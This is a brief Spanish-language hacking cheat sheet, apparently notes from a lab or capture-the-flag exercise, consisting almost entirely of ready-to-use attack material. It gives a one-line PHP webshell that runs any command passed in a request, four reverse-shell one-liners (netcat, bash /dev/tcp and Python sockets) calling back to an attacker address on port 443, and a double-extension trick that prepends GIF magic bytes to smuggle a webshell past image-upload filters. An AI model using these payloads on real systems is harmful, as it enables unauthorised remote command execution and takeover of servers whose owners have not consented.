 ** cmd.php **
Para visualizar la webshell, desde navegador --> 10.10.10.100/cmd.php?cmd=whoami

```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

** Payloads para ganar acceso al sistema **
`nc -e /bin/bash 10.9.6.44 443`

`bash -i >& /dev/tcp/10.9.6.44/443 0>&1`

`bash -c "bash -i >& /dev/tcp/10.9.6.44/443 0>&1"`

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.9.6.44",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'`

** Ataque de doble extensión para la subida de webshells **
Renombrar 'webshell.php' a 'webshell.php.jpg'
Añadir al principio del fichero las carácterísticas de un fichero jpg para que incruste los magic number --> GIF8;
Podemos comprobar los valores del fichero nuevo con hexeditor --> `hexeditor webshell.php.jpg`